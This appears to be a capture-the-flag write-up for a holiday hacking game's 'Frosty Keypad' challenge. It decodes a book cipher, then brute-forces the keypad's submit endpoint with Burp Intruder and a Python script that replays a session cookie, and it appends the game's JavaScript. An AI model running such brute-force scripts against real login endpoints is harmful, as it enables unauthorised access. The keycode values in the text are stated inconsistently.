



## Objective

## Challenge
```
I'm Morcel Nougat, and we've got an urgent situation here - with Santa missing, Wombley and Alabaster are in charge, but one of our overeager Data Management elves accidentally shredded a crucial document we need for Santa's chest and the Santa's Little Helper tool! I've noticed some elves keep referencing a particular book when they pass by, which might help us crack the two access codes we need to get into the Shredder McShreddin 9000 and recover those document pieces.
```
## Hints


## Resources
### Prerequisites

### Outcomes


### Solution

#### Silver

>[!NOTE]
>It is entirely possible to brute force this entire solution for both Gold and Silver without getting the UV light, the Book or reading the keypad note. That said brute forcing all number between 10000 and 99999 at a max rate of 1 per second would take well over 27 hours. Therefore it is best to solve this silver challenge the intended way so that the scope can be limited when performing the Gold challenge. 

##### Find The Book

##### Find The UV Flashlight
- The UV Flashlight can be found around this area. You may have to walk behind the crates in order to find the icon for the flashlight to pick it up


- Once you have the flashlight you can use it on the keypad to see the fingerprints. Per the Hint provided to us, the numbers revealed limit the total number of combinations. The UV reveals that the available numbers are: {2, 6, 7, 8}


##### Decode The Message
> [!TIP]
> The Hint for this challenge states the book is key to solving this challenge, which indicates that the ciphers noted are likely the key to some algorithm cipher/encryption. Looking at the source code for this game, we can glean that the cipher being used is called the **Ottendorf Cipher**. The Ottendorf cipher is a code that uses a book or document as a key, with numbers indicating specific lines, words, and letters to encode or decode **messages**

> [!NOTE]
> While the following is assuming a left to right top to bottom reading method, there are other methods, which would give you the same letters, but in a different order. Ultimately the passcode is a word, and you will want to find that word here

> [!NOTE]
> The following assumes the knowledge of a standard phone number keypad associated with the letters from when texting was done via the number pad. Here is an example of this:
> 
> 

| Cipher | Page | Word         | Character | Keypad Value |
| ------ | ---- | ------------ | --------- | ------------ |
| 2-6-1  | 2    | 6 (SNUG)     | 1 (S)     | 7            |
| 4-19-3 | 4    | 19 (WHAT)    | 3 (A)     | 2            |
| 6-1-1  | 6    | 1 (NOW)      | 1 (N)     | 6            |
| 3-10-4 | 3    | 10 (CLATTER) | 4 (T)     | 8            |
| 14-8-3 | 14   | 8 (TEAM)     | 3 (A)     | 2            |
22786 (ABC) (ABC) (PQRS) (TUV) (MNO)


- Finding the book

- book output

- 


- Enter keycode


#### Gold

> [!IMPORTANT]  
> You can solve both the Silver and Gold Challenge simply by completing the Gold Challenge as it will find both codes, but it is recommended not to, since the information provided from the Silver Challenge limits the scope of the numbers that have to be evaluated. That said, completion of the Silver is not required to get this information. You can obtain it via the JavaScript code for the game
> ```javascript 
> const keysToCheck = ['2', '7', '6', '8', 'Enter'];
>```

##### Hard Mode Brute Force (Burp - Community Edition)

>[!NOTE]
>While demonstrated here using Burp, it was not my preferred method, as it was slower than the programmatic method unless you are using Burp Professional. With That Said, I do show this way as it is useful for may web request intercept tasks, and the understanding here may help in future challenges

- You can setup burp for the challenge using the `Brute Forcer` method under the `Intruder Tab`.  To accomplish this, open Burp Suite Community Edition with all the defaults. Then click on the `Target` Tab and select open browser. You should be able to put in the link from your original Frosty Keypad instance. (View Source, Open Link in new tab will get you this link)

> [!NOTE]
> The link for the endpoint under investigation should start with `https://hhc24-frostykeypad.holidayhackchallenge.com/`


- In the Chromium browser that Burp Suite opens, navigate to the application link and then provide a random entry. Regardless of successful code or not, you will have some network connections coming back inside burp that has been intercepted


- Navigate to `Proxy` Tab and select the HTTP `History Tab` looking for a `submit?id=` style URL as seen below


- Right click the traffic you are seeing for the challenge (such as the one that is highlighted in the image above). Once that is done your `Intruder` tab will be populated with the network request, similar to the following output.


> [!TIP]
> Burp has multiple attack vectors, and any number of them can be used to solve this challenge. That said the Sniper is the best fit for the method being used here. If you need more information about the Burp Attack methods, I recommend reviewing: [Burp Intruder attack types - PortSwigger](https://portswigger.net/burp/documentation/desktop/tools/intruder/configure-attack/attack-types)

- Once we have the submit endpoint, we need to configure the brute force attack. So for this case we are going to stick to `Sniper Attack`, highlight the content in the answer section. For me that example is `12345`, then click `Add §` which will result in the following:


- Use the following Settings for the Payload
```burpsuite
Payload type: Brute force
Character set: 2678
Min length: 5
Max length: 5
```

- Click `Start Attack` and wait for the magic to happen. You will have window open that may or may not prompt you, which you can click through in this case. You will see each of the responses in that window


- Once everything is complete you can look through all of the items for anything that has a status Code 200, which should be the answers for the keypad.

> [!TIP]
> You can sort the output similar to what is picutred below by simplying clicking on the `status code` column to sort


##### Hard Mode Brute Force (Coding)

- Get your Challenge ID and your Cookie details to put in this script via the web development tools. To get the UUID quickly you can input a random code (right or wrong does not matter) and then look at the network tab of the web development tools. From there look at the request similar to `submit?id=` where the value after the `=` is the unique id.


- After getting the UUID, you can grab your cookie from the Application/Local Storage and selecting your cookies listing. Looking for specifically for the `CreativeCookieName`. An Example shown below:


>[!TIP] 
>As with many of these challenges, python code can be completed in other languages of your choice, and this is only one way to achieving this requirement. Here are a few examples in: 
>- [Bash](../../../Assets/code/act1/frosty-keypad/brtue-force-frosty-keypad.sh)
>- [Python](../../../Assets/code/act1/frosty-keypad/brute-force-frosty-keypad.py)
>- [Go](../../../Assets/code/act1/frosty-keypad/brute-force-frosty-keypad.go)

```python
import time
import requests
from itertools import permutations

def generate_valid_codes():
    # Base numbers that must be used
    base_nums = '7268'
    # Create a list of all possible digits we can use (including duplicates)
    possible_digits = '72687268'  # Each number can be used up to twice
    
    # Keep track of valid codes
    valid_codes = set()
    
    # Generate all 5-digit permutations
    for perm in permutations(possible_digits, 5):
        code = ''.join(perm)
        # Check if all required digits are present at least once
        if all(d in code for d in base_nums):
            valid_codes.add(code)
    
    return sorted(list(valid_codes))

def make_custom_request():
	id = "<insert-uuid>"
    cookie = "<insert-cookie>"

    # Target URL
    url = f"https://hhc24-frostykeypad.holidayhackchallenge.com/submit?id={id}"

    # Headers exactly as shown in the request
    headers = {
        'authority': 'hhc24-frostykeypad.holidayhackchallenge.com',
        'method': 'POST',
        'path': f"/submit?id={id}",
        'scheme': 'https',
        'Accept': '*/*',
        'Accept-Encoding': 'gzip, deflate, br, zstd',
        'Accept-Language': 'en-US,en;q=0.9',
        'Cache-Control': 'no-cache',
        'Content-Type': 'application/json',
        'Origin': 'https://hhc24-frostykeypad.holidayhackchallenge.com',
        'Pragma': 'no-cache',
        'Priority': 'u=1, i',
        'Referer': 'https://hhc24-frostykeypad.holidayhackchallenge.com/',
        'Sec-Ch-Ua': '"Microsoft Edge";v="131", "Chromium";v="131", "Not_A Brand";v="24"',
        'Sec-Ch-Ua-Mobile': '?0',
        'Sec-Ch-Ua-Platform': '"Windows"',
        'Sec-Fetch-Dest': 'empty',
        'Sec-Fetch-Mode': 'cors',
        'Sec-Fetch-Site': 'same-origin',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36 Edg/131.0.0.0'
    }

    # Cookie as shown in the request
    cookies = {
        'CreativeCookieName': f"{cookie}"
    }

    try:
        # Test request to verify connectivity
        payload = {
            "answer": "72682"
        }
        test = requests.post(url, headers=headers, cookies=cookies, json=payload)
        if test.status_code != 200:
            print("Broken REQUEST CYCLE")
            exit(-1)

        # Generate all valid codes and try them
        valid_codes = generate_valid_codes()
        print(f"Total valid combinations to try: {len(valid_codes)}")

        for code in valid_codes:
            # Payload from the request
            payload = {
                "answer": code
            }
            # Make the POST request
            response = requests.post(
                url=url,
                headers=headers,
                cookies=cookies,
                json=payload
            )

            # Print response details
            print(f"Status Code: {response.status_code} -- ANSWER: {code}")
            print(f"Response Headers: {dict(response.headers)}")
            print(f"Response Content: {response.text}")

            # Its not SANTA as that is the Silver Answer
            if response.status_code == 200 and code != "72682":
                print(f"Found valid code: {code}")
                break

            # Required because API only allows 1 per second rate
            time.sleep(1)

    except requests.exceptions.RequestException as e:
        print(f"An error occurred: {e}")

if __name__ == "__main__":
    make_custom_request()
```

**RESULT**: `22786` (Canto - as in Christmas Song)



### Game Code
```javascript
var config = {
	type: Phaser.AUTO,
	scale: {
		mode: Phaser.Scale.FIT,
		parent: 'phaser-example',
		autoCenter: Phaser.Scale.CENTER_BOTH,
		width: 800,
		height: 600
	},
	input: {
		activePointers: 3
	},
	scene: {
		preload: preload,
		create: create,
		update: update
	},
	backgroundColor: '#dcf3ff',
	physics: {
		default: 'arcade',
		arcade: {
			gravity: { y: 0 },
			debug: false
		}
	}
};

var game = new Phaser.Game(config);

let numberSequence = ''; //numbers in display box
const maxDigits = 5; //max # digits in code
let displayText;
let enterKey;
let followCircle; // flashlight circle
let isFollowing = false; // flashlight on or off status
let overlayGraphics = [];
let overlays = []; // To hold the overlay images
const keyPositions = {};  // Store key positions for easy access

let uvLight; // flashlight

let successText; // Text object to display success message
let successBackground; // Graphics object to display background for success message

function preload() {
	this.load.image('button', '/static/images/frost.jpg');
	this.load.image('overlay', '/static/images/overlay.png');
	this.load.image('uv_light', '/static/images/uvlight_off.png');
	this.load.image('uv_light_on', '/static/images/uvlight_on.png');
	this.load.image('background', '/static/images/keypad_bg.png');
	this.load.image('note', '/static/images/note.png'); // note about Ottendorf

	this.load.audio('click', '/static/audio/click.wav');
	this.load.audio('light_on', '/static/audio/light_on.wav');
	this.load.audio('light_off', '/static/audio/light_off.wav');
	this.load.audio('click_down', '/static/audio/click_down.wav');
	this.load.audio('click_up', '/static/audio/click_up.wav');

	//sounds for keypad
	this.load.audio('dtmf-0', '/static/audio/dtmf-0.wav');
	this.load.audio('dtmf-1', '/static/audio/dtmf-1.wav');
	this.load.audio('dtmf-2', '/static/audio/dtmf-2.wav');
	this.load.audio('dtmf-3', '/static/audio/dtmf-3.wav');
	this.load.audio('dtmf-4', '/static/audio/dtmf-4.wav');
	this.load.audio('dtmf-5', '/static/audio/dtmf-5.wav');
	this.load.audio('dtmf-6', '/static/audio/dtmf-6.wav');
	this.load.audio('dtmf-7', '/static/audio/dtmf-7.wav');
	this.load.audio('dtmf-8', '/static/audio/dtmf-8.wav');
	this.load.audio('dtmf-9', '/static/audio/dtmf-9.wav');
	this.load.audio('dtmf-hash', '/static/audio/dtmf-hash.wav');
	this.load.audio('dtmf-star', '/static/audio/dtmf-star.wav');
}

// Plays the DTMF tones
function playDTMFTone(key) {
	if (key >= '0' && key <= '9') {
		this.sound.play(`dtmf-${key}`);
	} else if (key === 'Clear') {
		this.sound.play('dtmf-hash');
	} else if (key === 'Enter') {
		this.sound.play('dtmf-star');
	}
}

function create() {
	// Add background image
	this.add.image(400, 300, 'background');

	const keys = [
		'1', '2', '3',
		'4', '5', '6',
		'7', '8', '9',
		'Clear', '0', 'Enter'
	];

	const buttonSize = 80;
	const startX = 300;
	const startY = 100;
	const padding = 10;

	// build keypad grid
	let index = 0;
	for (let row = 0; row < 4; row++) {
		for (let col = 0; col < 3; col++) {
			const x = startX + col * (buttonSize + padding);
			const y = startY + row * (buttonSize + padding);
			const key = keys[index];

			const button = this.add.sprite(x, y, 'button').setInteractive();
			button.displayWidth = buttonSize;
			button.displayHeight = buttonSize;
			button.keyValue = key;

			const text = this.add.text(x, y, key, { fontSize: '24px', fill: '#000', align: 'center' });
			text.setOrigin(0.5, 0.5);

			// Draw black border around each key
			const border = this.add.graphics();
			border.lineStyle(2, 0x000000, 1);
			border.strokeRect(x - buttonSize / 2, y - buttonSize / 2, buttonSize, buttonSize);

			button.on('pointerdown', () => {
				this.sound.play('click_down');
				button.setTint(0x555555);
				handleKeyPress.call(this, key);
			});
			button.on('pointerup', () => {
				this.sound.play('click_up');
				button.clearTint();
			});

			// Store key positions
			keyPositions[key] = { x: x, y: y, buttonSize: buttonSize };

			index++;
		}
	}

	// create box for entered numbers display
	const displayBox = this.add.rectangle(392, 450, 300, 50, 0x262626);
	displayBox.setStrokeStyle(2, 0x000000);

	//display digital entry in box
	displayText = this.add.text(392, 450, '', { fontFamily: 'Segment', fontSize: '32px', fill: '#FF0000' }).setOrigin(0.5, 0.5);

	// submitText = this.add.text(400, 500, 'Enter Press', { fontSize: '32px', fill: '#000' }).setOrigin(0.5, 0.5).setInteractive();

	// Create flashlight icon
	uvLight = this.add.sprite(150, 250, 'uv_light');
	uvLight.setOrigin(0.5, 0.5); // Center the image
	uvLight.displayWidth = 200; // Adjust width if necessary
	uvLight.displayHeight = 200; // Adjust height if necessary
	uvLight.angle = 90; // Rotate the UV light by 90 degrees
	uvLight.setInteractive(new Phaser.Geom.Rectangle(100, 50, 300, 200), Phaser.Geom.Rectangle.Contains);
	uvLight.setVisible(false);

	flashlight().then(result => {
		if (result) {
			console.log("Flashlight is enabled");
			uvLight.setVisible(true);
		}
		else {
			console.log("Flashlight is disabled");
		}
	}).catch(error => {
		console.error("Error checking flashlight:", error);
	});

	uvLight.on('pointerdown', () => {
		isFollowing = !isFollowing;
		followCircle.setVisible(isFollowing);
		uvLight.setTexture('uv_light_on');
		this.sound.play('light_on');
		if (!isFollowing) {
			clearOverlays();
		}
	});

	uvLight.on('pointerup', () => {
		uvLight.setTexture('uv_light');
		this.sound.play('light_off');
	});

	// Enable dragging for the flashlight
	this.input.setDraggable(uvLight);

	// Drag start
	uvLight.on('dragstart', (pointer, dragX, dragY) => {
		if (isFollowing) {
			updateCirclePosition.call(this, dragX, dragY);
		}
	});

	// Drag update
	uvLight.on('drag', (pointer, dragX, dragY) => {
		uvLight.x = dragX;
		uvLight.y = dragY;
		if (isFollowing) {
			updateCirclePosition.call(this, dragX, dragY);
		}
	});

	// Stop dragging on pointerup
	uvLight.on('pointerup', () => {
		isFollowing = false;
		followCircle.setVisible(false);
		clearOverlays();
	});

	// Create the follow circle
	followCircle = this.add.circle(0, 0, 50, 0x8a2be2, 0.5);
	followCircle.setVisible(false);

	// Add keyboard input for number entry
	this.input.keyboard.on('keydown', (event) => {
		handleKeyboardInput.call(this, event);
		this.sound.play('click_down');
	});
	this.input.keyboard.on('keyup', (event) => {
		this.sound.play('click_up');
	});

	note = this.add.image(10, 10, 'note').setOrigin(0, 0);
	note.scale = 0.25;

	// make note.png interactive and clickable
	note.setInteractive(); // Make the note clickable

	// Add event listener for clicking the note
	note.on('pointerdown', () => {
		toggleImageOverlay();
	});

	// Function to toggle the overlay
	function toggleImageOverlay() {
		const overlay = document.getElementById('image-overlay');
		if (overlay.style.display === 'flex') {
			overlay.style.display = 'none'; // Hide the overlay
		} else {
			overlay.style.display = 'flex'; // Show the overlay
		}
	}

	// Add click event listener to hide the enlarged image when clicked
	const overlay = document.getElementById('image-overlay');
	overlay.addEventListener('click', toggleImageOverlay);


}

function update() {
	displayText.setText(numberSequence);

	// Make the follow circle follow the flashlight
	if (isFollowing) {
		updateCirclePosition.call(this, uvLight.x + 25, uvLight.y - 120);
		checkOverlap.call(this);
	}
}

// check if a key is pressed. display the number or run function for clear and enter
function handleKeyPress(key) {
	playDTMFTone.call(this, key); // Call the DTMF tone function here
	if (key === 'Clear') {
		numberSequence = '';
		//submitText.setFill('#000'); // Reset submit text color to black
	} else if (key === 'Enter') {
		submitAction(numberSequence, (success) => {
			if (success) {
				displaySuccessMessage.call(this, 'Success! You have defeated the Frosty Keypad!!!!');
			} else {
				numberSequence = '';
			}
		});
	} else {
		if (numberSequence.length >= maxDigits) {
			numberSequence = numberSequence.substring(1);
		}
		numberSequence += key;
	}
}

// manage keyboard entry for digits
function handleKeyboardInput(event) {
	const keyMap = {
		'0': '0',
		'1': '1',
		'2': '2',
		'3': '3',
		'4': '4',
		'5': '5',
		'6': '6',
		'7': '7',
		'8': '8',
		'9': '9',
		'Enter': 'Enter',
		'Backspace': 'Clear'
	};
	if (keyMap[event.key]) {
		handleKeyPress.call(this, keyMap[event.key]);
	}
}

async function submitAction(answer, callback) {
	const urlParams = new URLSearchParams(window.location.search);
	const id = urlParams.get('id');
	const url = `/submit?id=${id}`;
	const data = { answer: answer }; // Send the answer as a JSON object

	try {
		const response = await fetch(url, {
			method: 'POST',
			headers: {
				'Content-Type': 'application/json'
			},
			body: JSON.stringify(data)
		});

		if (response.ok) {
			const result = await response.json();
			console.log('Success:', result);
			callback(true); // Call the callback with true if the response is successful
		} else {
			console.error('Error:', response.statusText);
			callback(false); // Call the callback with false if the response is not successful
		}
	} catch (error) {
		console.error('Error:', error);
		callback(false); // Call the callback with false if an error occurs
	}
}

async function flashlight() {
	const urlParams = new URLSearchParams(window.location.search);
	const id = urlParams.get('id');
	const url = `/check?id=${id}`;

	try {
		const response = await fetch(url, {
			method: 'GET',
			headers: {
				'Content-Type': 'application/json'
			},
		});

		if (response.ok) {
			const result = await response.text();
			console.log('Result:', result);
			const jsonResponse = JSON.parse(result);
			if (jsonResponse.flashlight_found === true) {
				return true
			}
			else {
				return false
			}
			return true;
		} else {
			console.error('Error:', response.statusText);
		}
	} catch (error) {
		console.error('Error:', error);
	}
}

function displaySuccessMessage(message) {
	// Remove any existing success text and background
	if (successText) {
		successText.destroy();
	}
	if (successBackground) {
		successBackground.destroy();
	}

	// Calculate text dimensions
	const padding = 10;
	const textStyle = { fontSize: '24px', fill: '#00FF00', align: 'center' };
	successText = this.add.text(this.cameras.main.centerX, this.cameras.main.centerY, message, textStyle);
	successText.setOrigin(0.5, 0.5);

	// Calculate the width and height of the text
	const textWidth = successText.width + 2 * padding;
	const textHeight = successText.height + 2 * padding;

	// Create a black background box behind the text
	successBackground = this.add.graphics();
	successBackground.fillStyle(0x000000, 0.8); // Black color with 80% opacity
	successBackground.fillRect(
		this.cameras.main.centerX - textWidth / 2,
		this.cameras.main.centerY - textHeight / 2,
		textWidth,
		textHeight
	);

	// Bring the text to the front
	this.children.bringToTop(successText);

	// Optionally, set a timeout to remove the message after a few seconds
	setTimeout(() => {
		if (successText) {
			successText.destroy();
			successText = null;
		}
		if (successBackground) {
			successBackground.destroy();
			successBackground = null;
		}
	}, 3000); // The message will disappear after 3 seconds
}


// check if flashlight is over special keys
function checkOverlap() {
	clearOverlays();
	const keysToCheck = ['2', '7', '6', '8', 'Enter'];

	keysToCheck.forEach(key => {
		const pos = keyPositions[key];
		const buttonRect = new Phaser.Geom.Rectangle(pos.x - pos.buttonSize / 2, pos.y - pos.buttonSize / 2, pos.buttonSize, pos.buttonSize);
		if (Phaser.Geom.Rectangle.Contains(buttonRect, followCircle.x, followCircle.y)) {
			// Create a sprite overlay
			const overlay = this.add.sprite(pos.x, pos.y, 'overlay');
			overlay.setOrigin(0.5, 0.5); // Center the overlay
			overlay.displayWidth = pos.buttonSize;
			overlay.displayHeight = pos.buttonSize;
			overlay.setAlpha(0); // Start with full transparency

			overlays.push(overlay);

			// Update the overlay's alpha based on the initial position
			updateOverlayAlpha(overlay, followCircle.x, followCircle.y);
		}
	});
}

// Function to update the alpha of the overlay based on proximity
function updateOverlayAlpha(overlay, circleX, circleY) {
	const distance = Phaser.Math.Distance.Between(circleX, circleY, overlay.x, overlay.y);
	const maxDistance = 90; // Maximum distance at which the overlay should be fully visible

	// Calculate alpha based on distance
	const alpha = Phaser.Math.Clamp(1 - distance / maxDistance, 0, 1) * .5;
	overlay.setAlpha(alpha);
}

function clearOverlays() {
	overlays.forEach(overlay => overlay.destroy());
	overlays = [];
}

// Function to update circle position relative to the flashlight
function updateCirclePosition(lightX, lightY) {
	const offset = 70; // Adjust this offset to position the circle as desired
	followCircle.x = lightX - offset;
	followCircle.y = lightY + offset;

	// Update overlays based on proximity to the circle
	overlays.forEach(overlay => {
		updateOverlayAlpha(overlay, followCircle.x, followCircle.y);
	});
}
```
